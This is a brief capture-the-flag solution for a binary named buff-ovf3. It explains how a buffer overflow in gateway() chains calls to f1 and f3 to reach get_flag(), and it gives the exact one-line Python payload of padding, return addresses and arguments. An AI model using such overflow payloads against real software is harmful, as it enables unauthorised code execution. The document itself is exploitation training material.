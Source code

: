 # Solution

By using the buffer overflow in `gateway()`, functions `f1(56, 13)` and `f3(13)` need to be called in this order, with those exact parameters.
`f3` is the one that actually calls `get_flag()`.
Calling `get_flag()` directly shouldn't work (a global variable is checked to make sure all steps were made).

```sh
python3 -c 'import sys; sys.stdout.buffer.write(b"A"*22 + b"\x0c\x87\x04\x08" + b"\xb7\x86\x04\x08" + b"\x38\x00\x00\x00" + b"\x0d\x00\x00\x00")' | ./buff-ovf3
```
